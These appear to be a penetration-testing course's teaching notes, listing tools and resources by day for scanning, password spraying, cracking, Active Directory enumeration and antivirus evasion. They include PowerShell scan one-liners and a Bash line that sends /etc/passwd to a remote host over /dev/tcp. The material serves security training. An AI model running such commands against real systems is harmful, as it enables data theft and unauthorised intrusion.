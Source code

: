 # Teaching Notes & Extras

## Day 1


## Day 2


### Proxying traffic and rotating source IP
https://github.com/ustayready/fireprox (more for web traffic, but always worth mentioning)

https://github.com/blacklanternsecurity/TREVORproxy

https://github.com/Shellntel/scripts/blob/master/proxyCannon.py


### PktMon - Windows native packet capture

https://learn.microsoft.com/en-us/windows-server/networking/technologies/pktmon/pktmon


### Other port and host scanning options

RustScan: https://github.com/RustScan/RustScan

How to write a port scanner in Go: https://github.com/jboursiquot/portscan

PowerShell ping sweep example: 
```
1..60 | % {echo $_; ping -n 1 -w 100 10.10.10.$_ | select-string ttl}
```

PowerShell port scan example: 
```
70..90 | % {echo $_; echo ((new-object Net.Sockets.TcpClient).Connect("10.10.10.50",$_)) "Port $_ is open" } 2>$null
```

### Bash /dev/tcp fun

Connect to a port: 
```
echo "" > /dev/tcp/142.250.138.139/443
```

Send a file: 
```
cat /etc/passwd > /dev/tcp/10.10.10.10/4444
```

### All the cats

Powercat: https://github.com/besimorhino/powercat

Nmap's ncat: https://nmap.org/ncat/

pwncat, "python netcat on steroids": https://github.com/cytopia/pwncat

socat: https://linux.die.net/man/1/socat

lolcat (lol): https://github.com/busyloop/lolcat

Awesome lolcat from Jeff McJunkin:
```
while true; do fortune | cowsay -f $(find /usr/share/cowsay/cows/ -type f | sort -R | head -n1) |
lolcat -a -s 40; sleep 2; done
```

Can use telnet, too (although it is not a cat): telnet ip port


### NSE script using the Vulners.com API

https://github.com/vulnersCom/nmap-vulners


### Auto-updated wordlist for pw guessing based on current, relevant seasons, months, and year

http://weakpasswords.net/


### Skull Security for useful lists

https://wiki.skullsecurity.org/index.php/Passwords


### Password Spraying

DomainPasswordSpray: https://github.com/dafthack/DomainPasswordSpray/

SprayingToolkit: https://github.com/byt3bl33d3r/SprayingToolkit

TrevorSpray: https://github.com/blacklanternsecurity/TREVORspray


## Day 3

### Verizon Data Breach Investigation Report

https://www.verizon.com/business/resources/reports/dbir/


### Living off the land

Windows: https://lolbas-project.github.io/

Linux: https://gtfobins.github.io/


### PowerShell command history files

%userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine


### Daily builds of various C# security tools

https://github.com/Flangvik/SharpCollection


### Custom Bloodhound queries

https://github.com/hausec/Bloodhound-Custom-Queries


### Python Bloodhound ingestor

https://github.com/fox-it/BloodHound.py


### Analyze group policy for issues, vulnerabilities:

https://github.com/Group3r/Group3r


### Cracking

NPK: https://github.com/c6fc/npk

Distributed hashcat: https://github.com/hashtopolis/server

High-value rule from different sets combined into one: https://github.com/NotSoSecure/password_cracking_rules/blob/master/OneRuleToRuleThemAll.rule

KoreLogic masks: https://blog.korelogic.com/blog/2014/04/04/pathwell_topologies

CrackStation's giant wordlist: https://crackstation.net/crackstation-wordlist-password-cracking-dictionary.htm

John Jumbo: https://github.com/openwall/john


## Day 4


CrackMapExec: https://github.com/Porchetta-Industries/CrackMapExec


### AV Bypass

DefenderCheck: https://github.com/matterpreter/DefenderCheck

AMSITrigger: https://github.com/RythmStick/AMSITrigger

https://github.com/phra/PEzor

https://vanmieghem.io/blueprint-for-evading-edr-in-2022/

https://www.purpl3f0xsecur1ty.tech/2021/03/30/av_evasion.html

https://github.com/TheWover/donut

Talk the Windows API directly with PowerShell: https://devblogs.microsoft.com/scripting/use-powershell-to-interact-with-the-windows-api-part-1/

## Day5


### Public pentest reports:

https://github.com/juliocesarfort/public-pentesting-reports
